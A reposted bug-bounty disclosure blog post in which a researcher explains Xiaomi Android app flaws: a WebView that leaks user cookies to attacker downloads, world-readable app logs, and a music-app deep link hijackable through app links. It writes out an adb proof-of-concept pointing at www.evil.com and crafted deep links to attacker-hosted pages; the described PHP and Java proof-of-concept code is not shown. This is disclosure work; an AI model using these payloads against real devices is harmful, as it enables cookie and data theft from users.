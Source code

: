 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.takemyhand.xyz](http://blog.takemyhand.xyz/2021/07/hacking-on-xiaomis-android-apps.html)

> In this blogpost I want to disclose some interesting security issues that I found while researching o......

    

![](https://thehackernews.com/images/-Wbi4tnFAaQE/XKZOF5MuboI/AAAAAAAAzr8/6Qj9LCb7keYTX6v7baa_BjhdCUiv4MijACLcBGAs/s728-e100/xiaomi-antivirus-malware.png)In this blogpost I want to disclose some interesting security issues that I found while researching on Xiaomi's assets, which got me to #5 within a month and also the top researcher spot for April and May'21.  

The app exported an activity which loaded an external URL directly from user input. A simple ADB PoC is **am start -n com.xiaomi.smarthome/com.mi.global.shop.activity.MainTabActivity -d http://tmh/?nativeOpenUrl=www.evil.com**  
As you can see, my payload is in the **nativeOpenUrl** parameter. Looking at the code for this activity, it is found that the webview implements a custom **DownloadListener** like the following:We see that the webview introduces it's own method for whenever a download starts. Further, on lines 23-26, we see that it will attach the user's cookies to a request that makes the app start a download.

Connecting all the dots, we now simply have to create a page that will send a 'downloadable' response to the webview, and it will send a request with the user's cookies attached.  
A simple PoC in PHP:As can be seen, the server responds with a 'downloadable' HTTP response, and on receiving the next request, sends the user cookie to a Collaborator instance.

Naturally, the next step in the attack was to make this attack remote. For this, deep links were used. The manifest file revealed that the app will parse any links of the format **globalshop://mobile.mi.com?<params>.** After some more code review, the following link was crafted: **globalshop://mobile.mi.com?nativeOpenUrl=https://takemyhand.xyz/downloadable_response.html**. This link can be used inside an anchor tag of the attacker's web page, and it will execute the full attack.

This bug is nothing fancy, but I think a lot of people might miss this. The **Xiaomi Market** stored app logs in a public directory, which could have been accessed by any application on the victims' device. This was due to usage of **getExternalFilesDir()**, which returns a handle to the **/sdcard/Android/data/com.xiaomi.market/files** directory where the logs reside. Previously I only restricted myself to checking the **/sdcard/** directory without looking inside the app's own private (but public?) directory. Looking for these issues is as simple as grepping for **getExternalFilesDir()** and not just **getExternalStorage()**. A simple java PoC to steal logs out of the directory is:

The manifest file for Mi Music looked like:

Code for **miui-music://web** deeplink in **com.miui.player.component.HybridUriParser:**

As can be seen, if the deeplink is like **miui-music://web/?url=https://www.google.com&browser_view=true,** this will launch **another** intent with data as _https://www.google.com_ and action **android.intent.action.VIEW**. Naturally, this will be opened in the device's browser. 

An interesting way to attack such implementations (which is quite common to prevent malicious links from opening inside the webview), is to use **app links**.

Android allows use of app links, which work similar to deep links. If an app link for my app exists, instead of the URL opening in the browser, my application will be launched on the user's device.  
So, a custom APK was built, and the following intent filters were added:

This means that all intents with data [https://recon.takemyhand.xyz/deceive.html](https://www.blogger.com/#) will be launched inside my application.  
If I just add this intent filter, then on using deeplink **miui-music://web/?url=https://recon.takemyhand.xyz/deceive.html&browser_view=true**, my app will simply get launched, although **without** any chance of deceiving the user.  
To make it 100% convincing, the following intent filters were also added inside the app:
